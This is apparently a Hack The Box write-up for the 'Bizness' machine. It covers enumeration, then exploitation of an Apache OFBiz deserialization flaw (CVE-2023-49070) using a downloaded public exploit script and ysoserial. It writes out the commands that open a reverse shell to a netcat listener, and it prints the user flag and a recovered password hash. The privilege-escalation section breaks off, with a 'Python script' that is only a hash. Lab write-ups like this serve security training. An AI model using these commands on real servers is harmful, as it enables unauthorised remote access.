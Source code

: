  
# Bizness

<p align="center">
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/b394bd03-e005-41b0-bb83-60f236f052d4" />
</p>



Embrace the dawn of a fresh season as we unveil the latest additions to the gaming arena. Welcome to the exhilarating Season 4, where innovation and excitement collide. Leading the charge is the formidable Bizness, a dynamic machine that promises both challenge and reward. Boasting a lucrative 20-point bounty and an accessible easy difficulty level, Bizness beckons all daring adventurers. Without further ado, let's dive headfirst into the world of opportunities and embark on a thrilling journey – it's time to engage in some serious 'bizness'!


## Setting the Stage 
Before delving into the intricacies, our initial step involves the addition of the IP and domain to the crucial /etc/hosts file. This crucial setup ensures that the IP is recognized, laying the foundation for seamless interactions. Execute the command 'sudo nano /etc/hosts' to initiate this imperative configuration.

```bash
echo "10.10.11.252 bizness.htb" | sudo tee -a /etc/hosts 
```

## Enumeration with Nmap
Nmap serves as the indispensable compass, unveiling the intricacies of system architecture and potential vulnerabilities with its versatile commands

```bash
nmap -Pn -sC -sV 10.10.11.252
```
As we initiate enumeration, a preliminary port scan discloses the accessibility of ports 22, 80, and 443.


## Exploring the Vast Horizons of the Web .
Now let’s move to the next step for enumeration. Let’s use dirsearch tool to search for other endpoints.

```bash
sudo apt-get install dirsearch
dirsearch -u https://bizness.htb -e*
```

After using dirsearch we get login endpoints.

After doing directory enumeration we see there directory of /control/login 

## Art of Exploitation: Navigating Security Challenges :
"Upon entering the login page, it becomes evident that the system employs the Apache OFBiz web framework. Subsequent investigation yielded the following insights."


_There Vulnerability of ofbiz-CVE-2023–49070-RCE-POC_

- Link of exploitation: — https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/tree/main?tab=readme-ov-file


```bash
sudo update-alternatives — config java

use “ 1 /usr/lib/jvm/java-11-openjdk-amd64/bin/java 1111 manual mode”
```

Further exploration revealed....
```bash
wget https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar
```

```bash
wget https://raw.githubusercontent.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/main/exploit.py
```

Now we see that we can execute any command by using the above exploit . So, we try to get reverse shell.

## Executing the Payload

```bash
python3 exploit.py https://bizness.htb/ shell ip:4444
```

Subsequently, execute on a second terminal.
```bash
nc -lnvp 4444
```


then you will get user shell ....

## User Flag :

Upon successfully obtaining the reverse shell, navigating directories became a challenge. Fret not, as I've got you covered. Change the directory to /home/ofbiz, where you'll find a text file named user.txt. Simply execute 'cat' on the file, and voila! You've secured the user flag. 


```bash
ofbiz@bizness:/opt/ofbiz$ cd /home/ofbiz
cd /home/ofbiz
ofbiz@bizness:~$ ls
ls
user.txt
ofbiz@bizness:~$ cat user.txt
cat user.txt
d96f0aefb0311de8c1da1c174db554d7
```


We successfully secured the User flag as 'd96f0aefb0311de8c1da1c174db554d7' However, the journey to the root flag is yet to be completed. No need to worry, though—I've got your back.

Upon investigation, we uncovered the Derby database and a hash: '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN.' Breaking it down, '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN' signifies the use of the SHA-1 hashing algorithm ('$SHA$'), 'd' for salt, and the remaining string as the hashed value. Let's dive deeper into the data to uncover the next steps.


## Privilege Escalation: Elevating System Access Safely 

Execute this Python script to decode the SHA-1 hash.

```bash
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2IYNN
```


<p align="center">
   <a href="https://www.hackthebox.com/achievement/machine/672066/582" >
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/6c750e80-d65b-4a0b-91f2-d67192dffee9" align="center" alt="Bizness-htb pwnd by Mr.Govind" />
   <a/>
</p>
